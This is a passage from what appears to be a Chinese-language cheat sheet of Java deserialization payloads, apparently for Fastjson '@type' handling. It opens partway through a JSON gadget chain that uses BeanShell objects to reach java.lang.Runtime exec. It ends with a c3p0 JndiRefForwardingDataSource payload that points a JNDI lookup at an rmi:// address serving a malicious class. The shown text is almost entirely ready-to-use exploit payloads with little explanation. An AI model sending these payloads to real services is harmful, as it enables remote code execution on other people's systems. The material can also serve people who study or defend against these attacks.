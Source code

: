                         "engine": {}
                    },
                    "parent": {
                        "@type": "org.bsh.NameSpace",
                        "variables": {},
                        "methods": {},
                        "parent": null,
                        "This": {
                            "@type": "org.bsh.This",
                            "caller": {},
                            "engine": {}
                        }
                    },
                    "variables": {}
                },
                "caller": {},
                "engine": {}
            },
            "variables": {
                "tds": {
                    "@type": "java.lang.Runtime",
                    "methods": [
                        "getRuntime",
                        "exec"
                    ]
                }
            },
            "methods": {},
            "parent": {
                "@type": "org.bsh.NameSpace",
                "variables": {},
                "methods": {},
                "parent": null,
                "This": {
                    "@type": "org.bsh.This",
                    "caller": {},
                    "engine": {}
                }
            }
        }
    }
    ```
    
3. JNDI注入 (`c3p0`)
    
    需要`c3p0`库
    
    ```java
    {
        "@type": "com.mchange.v2.c3p0.JndiRefForwardingDataSource",
        "jndiName": "rmi://127.0.0.1:1099/badClassName",
        "loginTimeout": 0
    }
    ```
    